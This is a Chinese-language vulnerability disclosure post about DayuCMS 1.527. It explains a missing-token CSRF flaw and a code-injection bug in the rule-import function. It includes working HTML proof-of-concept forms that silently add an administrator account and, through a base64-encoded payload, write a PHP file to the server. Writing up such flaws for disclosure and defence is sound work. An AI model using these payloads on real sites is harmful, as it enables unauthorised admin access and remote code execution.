 ```yaml
---
title: "DayuCMS 1.527 CSRF漏洞可GetShell"
date: 2017-03-01
---
```


# 0x00 背景

下载链接：
站长之家：<http://down.chinaz.com/soft/34205.htm>
官网：<http://www.dayucms.com/show/?id=105&page=1&siteid=1>

首先是感觉代码加固过，可能被之前的白帽子审计过，审计完才发现JoyChou早已对1.526的版本撸过一遍了，具体见：<http://www.joychou.org/index.php/web/dayucms-1-526-foreground-remote-code-execution.html>

# 0x01 CSRF

初看源码时感觉IP是无法伪造的，XSS和SQL注入方面代码当中也有一些加固。想要找找短板，于是乎来到比较容易被忽略的CSRF。首先利用管理员账号登录后台，看看在一些表单提交处是否有hidden的token，在添加管理员处用burp抓包看看：

![][1]

的确是没有的，只有一些添加的管理员信息，再到对应的代码中看看，在dayucms.php的38行，是要对应包含admin/admin.inc.php文件：

![][2]

在admin.inc.php的开头并没有对referer进行验证就开始操作对应的action：

![][3]

于是一趟下来就很愉快：

![][4]

下面简单给个PoC代码

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://localhost/dayucms/dayucms.php?file=admin&action=add&roleid=1" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="newadmin[roleid]" value="1">
        <input type="hidden" name="newadmin[username]" value="larry">
        <input type="hidden" name="newadmin[password]" value="larry">
        <input type="hidden" name="newadmin[category][]" value="0">
        <input type="hidden" name="newadmin[allowmultilogin]" value="1">
        <input type="hidden" name="newadmin[disabled]" value="0">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

最后使用虚拟机搭建PoC来验证CSRF，结果可成功添加管理员：

![][5]

# 0x02 代码执行

本来以为就存在个CSRF，不过再耐心看看也是定位到了global.func.php的string2array函数，很明显得存在代码注入可执行任意php代码：

![][6]

可是再一查找全局调用该函数的地方，可能由于代码之前被爆过一次漏洞，发现用到的php脚本都是和后台相关联的，也就是需要登录后台才可以利用：

![][7]

所以就定位到在gather.class.php中gather对象的import方法会$data[1]字段在base64解码后传入string2array函数：

![][8]

对应得在gather.inc.php文件中对规则的导入使用import这一action，进而可以造成代码注入执行：

![][9]

在后台导入规则处传入`larry-'larry';phpinfo()的base64`编码`bGFycnk=-J2xhcnJ5JztwaHBpbmZvKCk=`后（'-'分割），即可执行php代码：

![][10]

# 0x03 结合

后台执行代码太low怎么办，那就结合呀，正好利用CSRF就可以GetShell了，原理也是相同的，如图所示：

![][11]

PoC代码如下：

{% highlight html %}
<!DOCTYPE html>
<html>
<head>
    <title>test</title>
</head>
<body>
    <form action="http://192.168.1.103/dayucms/dayucms.php?mod=gather&file=gather&action=import" method="post">
        <input type="hidden" name="do_submit" value="1">
        <input type="hidden" name="importdata" value="bGFycnk=-MTtmcHV0cyhmb3BlbihiYXNlNjRfZGVjb2RlKCdiR0Z5Y25rdWNHaHcnKSwndycpLGJhc2U2NF9kZWNvZGUoJ1BEOXdhSEFnY0dod2FXNW1ieWdwT3lBL1BnJykp">
        <input type="hidden" name="1" value="导入规则">
    </form>

    <script type="text/javascript">
        document.forms[0].submit();
    </script>
</body>
</html>
{% endhighlight %}

[1]: http://ojyzyrhpd.bkt.clouddn.com/20170301/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20170301/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20170301/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20170301/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20170301/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20170301/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20170301/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20170301/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20170301/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20170301/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20170301/11.png